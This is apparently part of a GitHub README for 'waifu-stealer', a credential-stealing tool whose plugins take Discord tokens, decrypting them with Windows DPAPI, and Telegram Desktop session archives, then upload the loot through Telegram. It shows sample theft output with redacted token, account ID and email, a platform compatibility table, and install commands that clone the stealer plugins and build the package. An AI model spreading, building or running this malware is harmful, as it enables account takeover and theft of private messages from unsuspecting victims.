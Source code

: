 ```
MFA Enabled: false
Bot: false

`NDExMTxxxxxxxxxxxxxxxxxx.xxxxxx.xxxxxxxx-xxxxxxxxxxxxxxxxxxxxxxxxxxxxx`
User: `xdxdxd#4567`
ID: `323456789123456789`
Email: zzzzzz@gmail.com
Phone:
Email verified: true
MFA Enabled: false
Bot: false`


Running plugin [telegram-stealer-plugin]! ⭐
[telegram-stealer-plugin] uploaded a file via Telegram: `xxxxxxxxxxxxxxxxxxxxxxx1234567890.zip` - New Telegram Desktop session archive\!
Archive Password: `rigwild/telegram-stealer`

Every plugin finished executing! 🎉
✅ Plugin [discord-stealer-plugin] was successful!
✅ Plugin [telegram-stealer-plugin] was successful!
```

## System compatibility

| Plugin             | Windows | Linux / MacOS |
| ------------------ | :-----: | :-----------: |
| `telegram-stealer` |   ✅    |      ✅       |
| `discord-stealer`  |   ✅    |      ❌       |

## Build

### Prerequisites

- Node.js v16+

If you want to use the `discord-stealer` plugin, you also need:

- Windows (uses [DPAPI](https://en.wikipedia.org/wiki/Data_Protection_API) to decrypt Discord tokens), see https://stackoverflow.com/a/59882818
- Visual C++ Build Tools (using a recent Node.js installer can set it up for you!)

### Install

```sh
git clone https://github.com/rigwild/waifu-stealer.git
cd waifu-stealer

# Install the plugins you need (check system compatibility above)
git clone https://github.com/rigwild/discord-stealer.git plugins/discord-stealer-plugin
git clone https://github.com/rigwild/telegram-stealer.git plugins/telegram-stealer-plugin

npm install --global pkg
npm install --dev
```
